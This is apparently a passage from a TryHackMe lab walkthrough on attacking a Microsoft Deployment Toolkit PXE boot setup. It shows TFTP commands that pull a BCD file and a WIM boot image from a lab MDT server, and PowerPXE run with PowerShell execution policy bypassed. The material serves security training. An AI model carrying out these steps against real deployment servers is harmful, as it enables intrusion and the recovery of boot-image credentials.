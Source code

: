 The first step we need to perform is using TFTP and downloading our BCD file to read the configuration of the MDT server. TFTP is a bit trickier than FTP since we can't list files. Instead, we send a file request, and the server will connect back to us via UDP to transfer the file. Hence, we need to be accurate when specifying files and file paths. The BCD files are always located in the /Tmp/ directory on the MDT server. We can initiate the TFTP transfer using the following command in our SSH session:

```php
C:\Users\THM\Documents\Am0> tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s
```


```php
tftp -i 10.200.25.202 GET "\Tmp\x64{6B6285E6-06C9-4A72-9A4D-EBA1DB12B6CE}.bcd" conf.bcd 
```

You will have to lookup THMMDT IP with `nslookup thmmdt.za.tryhackme.com`. With the BCD file now recovered, we will be using [powerpxe](https://github.com/wavestone-cdt/powerpxe) to read its contents. Powerpxe is a PowerShell script that automatically performs this type of attack but usually with varying results, so it is better to perform a manual approach. We will use the Get-WimFile function of powerpxe to recover the locations of the PXE Boot images from the BCD file:

```php
C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.   

PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
```

```php
powershell -executionpolicy bypass
```

```php
Import-Module .\PowerPXE.ps1
```

```php
$BCDFile = "conf.bcd"
```

```php
Get-WimFile -bcdFile $BCDFile
```

WIM files are bootable images in the Windows Imaging Format (WIM). Now that we have the location of the PXE Boot image, we can again use TFTP to download this image:

```php
PS C:\Users\THM\Documents\am0> tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim
Transfer successful: 341899611 bytes in 218 second(s), 1568346 bytes/s
```
